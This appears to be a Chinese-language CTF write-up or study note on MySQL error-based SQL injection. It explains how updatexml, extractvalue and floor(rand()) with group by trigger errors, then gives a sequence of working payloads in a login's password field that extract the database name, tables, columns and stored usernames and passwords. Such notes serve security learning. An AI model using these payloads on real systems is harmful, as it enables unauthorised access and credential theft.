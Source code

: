 > 好家伙报错注入忘记很多，再看一遍

报错注入常见函数:
`updatexml()`,`extractvalue`,`floor()`

*   `floor(rand(0)*2)`产生的数为`0，1，1，0，1，1`，然后结合`group by`函数的特性:进行集合的时候会先将每一行的数据存于一个虚表中，每次存都有查询插入更新这三种可选操作，最终造成键值重复然后报错的问题

*   `updatexml(xml_document,X_path_string,new_value)`是这个函数的正确用法，当输入与其参数格式不一样的数据的时候就会发生报错，常用的格式为`updatexml(1,conocat('~',(select database()),'~'),1)`

*   `extractvalue(xml_document,X_PATH_String)`是这个函数的正确用法，当输入与其参数格式不一样的数据的时候就会发生报错

`payload`:`username=asd&password=asd'^updatexml(1,concat('~',(select(database())),'~'),1)#`
![在这里插入图片描述](img/bbcdc1dc6b9bbfe2e72b449a3dfa7b0d.png)
`?username=asd&password=asd'^updatexml(1,concat('~',(select(group_concat(table_name))from(information_schema.columns)where(table_schema)like(database())),'~'),1)#`

![在这里插入图片描述](img/51a561456c08e0978fdb3409fe695749.png)
`?username=asd&password=asd'^updatexml(1,concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),'~'),1)#`

![在这里插入图片描述](img/a6eb1670c0a59ceba6260474d33a8e30.png)

`asd'^updatexml(1,concat('~',(select(group_concat(username,'~',password))from(H4rDsq1)),'~'),1)#`
![在这里插入图片描述](img/95078cabf6327d1b1c33702bb6de7e2e.png)
